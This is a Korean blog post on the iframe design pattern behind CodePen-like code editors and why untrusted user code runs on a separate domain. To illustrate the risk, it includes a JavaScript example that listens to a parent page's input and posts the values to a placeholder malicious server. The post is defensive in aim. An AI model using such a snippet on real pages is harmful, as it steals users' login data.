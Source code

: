 ```yaml
---
layout: single
title: '코드 에디터를 만들기 위한 iframe 디자인 패턴'
categories: HTML
tag: [HTML, CodePen Project]
---
```


## 코드 에디터를 만들기 위한 iframe 디자인 패턴

---

#### 개발 목표

Code Pen이라는 사이트가 있다. - https://codepen.io/
해당 사이트와 같이 코드를 입력하고 번들링하여 실시간으로 결과를 보여주는 사이트를 React를 사용하여 만들고자 한다.

---

#### 코드 입력 창에서 발생할 수 있는 문제점

간단하게 만들 수 있을 것 같았지만 코드를 입력하는 창을 구현하기 위해서는 아래와 같은 이슈사항들이 있었다.

1. 코드 입력창에 오류를 발생시키는 문법 등의 잘못된 코드가 작성될 수 있다.
2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다.
   ex) document.body.innerHTML = '';
3. 사용자가 악의적인 코드를 넣을 수 있다.
   ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

---

#### iframe 사용하여 해결

상기와 같은 문제점을 해결하기 위해서 HTML의 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 여기서 중요한 것은 **JavaScript EC(execution context)가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 문제가 발생하더라도 iframe의 EC에서만 오류가 발생하고, Front App의 EC에는 영향을 주지 않는다. 만약, iframe 내부에서 DOM을 조작하여도 프레임 내부에서만 문제가 발생하는 것이다.

![codepen-flowchart](/assets/images/iframe/js-execution-context.png 'Code Pen 사이트 디자인패턴')

그렇다면 어떻게 사용자가 입력한 코드를 iframe로 넣어 실행할 수 있을까?
'child frame'에서 'parent frame'의 정보를 가져올 때는 'parent' 문법을 사용하면 된다. 크롬 개발자 도구의 'console' 탭에서 'child iframe' 요소를 선택 후 'parent'를 입력하면 'parent frame'의 'Window 객체' 나타나는 것을 확인 할 수 있다. 반대로 'parent frame'에서 'child iframe'의 정보를 가져올 때는 'document.querySelector('iframe').contentWindow' 문법을 사용하면 된다.

추가적으로 알아야할 사항은 iframe이 항상 parent와 child frame의 커뮤니케이션을 허용하는 것은 아니라는 점이다. iframe은 아래와 같은 조건에서만 parent/child가 서로 접근할 수 있다.

-   iframe에 'sandbox' 프로퍼티가 없는 경우
-   sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
-   parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

---

#### parent/child 직접 통신 방식의 문제점 및 해결방법

하지만, parent/child frame이 서로 직접 접근할 수 있으면 많은 문제점이 발생한다. 예를 들어, 해커가 사용자의 코드 입력 창에 아래와 같은 악의적인 코드를 넣을 수 있다. 이를 통해 해커는 'child frame'에서 'parent input element'를 가져올 수 있다. 이후 eventListener를 사용하여 악의적인 서버로 개인 및 로그인 정보를 보낼 수 도 있을 것이다.

```javascript
document.querySelector('input').addEventListener('change', function => {
   axios.post('malicous.server', {
      value: event.target.value
   })
})
```

이외에도 쿠키와 세션 정보 등을 갈취할 수 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child가 직접 통신하는 방식으로 구현하지 않았다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png 'Code Pen 사이트 디자인패턴')

codepen.io 사이트 Flow 흐름 설명

1. 사용자가 코드를 입력하면 'codepen.io' 서버에 코드를 전송한다.
2. codepen.io 서버에서 코드 Transpiling 프로세스가 완료된다.
3. Transpiling된 코드를 Frontend App으로 전송한다.
4. **전송된 코드를 바로 Frontend App에서 실행하는 것이 아니라 iframe을 먼저 Reload 시킨다.** (Reload는 새로고침과 유사)
5. Reload가 될 때, 'copn.io' 서버에 요청하여 iframe에서 보여질 HTML document를 가져온다. 즉, iframe은 다른 도메인을 통해서 로드된다.
6. HTML document 요소를 가져온 뒤, 기존에 Transpiling 프로세스가 완료된 JS 코드를 다시 'cdpn.io'에 보낸 후 돌려받으며 JS 코드를 실행하며 끝난다.

> 사이트에 접속하여 코드를 입력하고 개발자 도구 Network 탭에서 통신을 확인할 수 있다.
> ![codepen-flowchart-site](/assets/images/iframe/codepen-flowchart-realsite.png 'Code Pen 사이트 네트워크 탭')

흐름을 살펴보면 Front App과 iframe간의 직접 통신하는 부분이 없다는 것을 알 수 있다. 이는 위에서 설명했듯이 악의적인 코드가 브라우저에서 실행되는 것을 방지하기 위해서이다.

대부분의 '온라인 코딩 툴 사이트'는 위와 같은 구조를 가지고 있다. 하지만 서버를 2개나 사용하고 데이터 흐름도 복잡하다. 쉬운 방법은 없을까? 더 간단한 구현 방법은 다음 포스팅에 작성하도록 하겠다.
